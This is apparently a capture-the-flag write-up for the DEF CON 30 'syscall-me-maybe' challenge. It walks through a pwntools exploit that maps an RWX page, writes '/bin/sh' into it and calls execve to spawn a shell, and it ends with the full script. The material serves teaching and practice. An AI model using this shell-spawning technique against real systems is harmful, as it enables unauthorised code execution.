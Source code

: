 # defcon30 speedrun - syscall-me-maybe

after a quick look you see the challenge get a value and save in rdi, then rsi, rdx, r10, r8 and r9, then ask you about your syscall number.

![Screenshot_2022-09-02_23_46_22](https://user-images.githubusercontent.com/83473054/188107346-0f0837e8-e640-4325-bd4b-db9ebcf4894a.png)

I did checksec on this bin file
pie is enabled.

## exploit
```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')

```

in above code I loaded the elf file and make gdb ready for debugging stuff. then we must create a new mapping in the virtual address space for bypassing ASLR.

```python

PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))
```
I did mmap above, you could read about mmap

now we have a rwx part in the memory wich starts at 0x1000000, we are able to write our "/bin/sh" string there

```python
p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)
```

now we have "/bin/sh" in the memory and for mmap stuff we know where it's located.

```python
p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```

and above code is execve.


## full exploit

```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')


PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20


p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))

p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)

p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```
